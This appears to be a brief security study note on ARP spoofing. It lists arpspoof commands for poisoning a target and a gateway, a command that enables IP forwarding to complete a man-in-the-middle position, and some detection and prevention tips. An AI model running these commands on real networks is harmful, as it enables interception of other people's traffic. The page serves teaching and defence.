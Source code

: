 ```yaml
---
title: ARP Spoofing - Poisoning
date: 2024-01-28 14:15:56 -0600
---
```


````bash
sudo apt install dnssniff
arpspoof -i <interface> -t <target-ip> <router-ip>
arpspoof -i <interface> -t <gateway-ip> <target-ip>
````

The target device will not have access to the internet after running the above commands as our device is not an router and does not forward packets.  
Port Forwarding can be enabled using following command: `echo 1 > /proc/sys/net/ipv4/ip_forward`

### Prevention

#### ARP Poisoning
Manually check the ARP table for duplicate MAC Addresses  
**Xarp**: Application used to automatically detect ARP poisoning

#### Detect ARP Storm/ Poisoning
Wireshark - Protocol - ARP - Detect ARP Request Storm  
Analyze - Expert Information  
Alternate approach is to define Static ARP
